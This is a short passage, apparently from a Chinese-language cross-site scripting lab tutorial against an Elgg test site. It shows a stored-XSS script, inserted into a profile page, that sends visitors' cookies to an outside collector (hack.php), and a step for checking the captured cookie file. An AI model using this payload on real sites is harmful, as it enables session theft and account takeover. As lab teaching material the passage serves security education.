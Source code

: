 step3:在编辑 profiles 页面插入以下 js 代码，保存后访问用户资料页面。

```
 <script>document.write('<img src=http://www.xsslabelgg.com/hack.php?c=' + escape(document.cookie) + '>');</script> 
```

![图片描述信息](img/userid9094labid937time1430793000033.jpg)

step4:查看 cookie.txt 文件，下图红色圆圈即为接收到的 cookie.

![图片描述信息](img/userid9094labid937time1430793023315.jpg)

